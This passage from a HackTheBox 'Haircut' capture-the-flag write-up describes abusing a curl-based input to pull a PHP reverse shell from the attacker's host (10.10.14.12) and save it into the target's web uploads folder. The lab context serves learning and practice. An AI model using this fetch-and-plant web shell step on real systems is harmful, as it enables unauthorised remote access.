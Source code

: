 Then we can grab the file by inputting `http://10.10.14.12/revshell.php`.

![curl](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Haircut/curl.png?raw=true)

It seems like it didn’t work. However, we know that there’s an `/upload` folders, so it might be possible if we save the file in that location instead using the `-o` flag for curl.

```bash
http://10.10.14.12/revshell.php -o /var/www/html/uploads/revshell.php
```
